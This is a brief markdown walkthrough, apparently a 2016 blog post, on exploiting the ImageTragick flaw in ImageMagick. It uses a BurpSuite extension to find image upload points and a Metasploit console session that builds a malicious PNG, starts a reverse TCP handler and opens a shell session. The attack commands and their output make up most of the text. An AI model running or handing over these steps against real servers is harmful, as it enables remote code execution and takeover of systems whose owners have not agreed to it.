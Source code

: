 ```yaml
---
title: ImageTragick using BurpSuite and Metasploit
date: 2016-05-26 14:13:16
tags: BurpSuite,ImageTragick
---
```


### BurpSuite
1. Download [burp-image-size.jar](https://github.com/silentsignal/burp-image-size/releases)
2. BurpSuite >> Extender >> Extensions >> Add >> select burp-image-size.jar
3. using burpsuite to scan upload point

### Metasploit

```
> msfconsole
msf> use exploit/unix/fileformat/imagemagick_delegate
msf> set LPORT 8080
msf> exploit -j
msf exploit(imagemagick_delegate) > exploit -j
[*] Exploit running as background job.
[*] Started reverse TCP handler on 10.0.5.41:8080
msf exploit(imagemagick_delegate) > [+] msf.png stored at /Users/xl7dev/.msf4/local/msf.png
msf exploit(imagemagick_delegate) > session -i 1
```
